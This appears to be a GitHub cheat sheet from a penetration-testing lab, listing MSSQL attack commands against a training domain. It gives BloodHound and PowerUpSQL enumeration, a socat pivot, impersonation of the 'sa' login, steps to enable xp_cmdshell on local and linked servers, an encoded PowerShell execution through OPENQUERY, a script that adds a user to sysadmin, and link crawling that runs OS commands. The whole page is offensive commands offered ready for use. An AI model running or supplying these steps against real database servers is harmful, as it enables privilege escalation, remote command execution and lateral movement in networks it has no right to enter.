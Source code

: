 ## BloodHound
```
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```

```
PowerShell Get-SQLInstanceDomain | Get-SQLConnectionTest
proxychains socat TCP4-Listen:1433,fork TCP:192.168.2.11:1433
runas /netonly /user:US.FUNCORP.LOCAL\pastudent34 "C:\Program Files\HeidiSQL\heidisql.exe" 
```
## xp_cmdshell
```
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'
```
## database link
```
SELECT * FROM master..sysservers or EXEC sp_linkedservers;
```
## enum
```
SELECT name FROM master.sys.databases
SELECT name FROM sys.syslogins
SELECT name FROM sys.server_principals
```

```
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;
SELECT @@servername
```

## enable xp_cmdshell 
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE
```

# Remote 
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [remote sql]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [remote sql]
SELECT * FROM OPENQUERY("[remote sql]", 'select * from sys.configurations where name = ''xp_cmdshell''')
```

```
SELECT * FROM OPENQUERY("[remote sql]", 'select @@servername; exec xp_cmdshell ''powershell -enc [...snip...]''')
```
# INTO MSSQL
```
Get-SQLInstanceLocal
Get-SQLServerInfo -Verbose -Instance MSSQLSRV04\BOSCHSQL
```
```
shell addselftosqlsysadmin.cmd MSSQLSERVER USFUN\pastudent34
```
* https://blog.netspi.com/get-sql-server-sysadmin-privileges-local-admin-powerupsql/

```
Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "exec master..xp_cmdshell 'whoami'"
```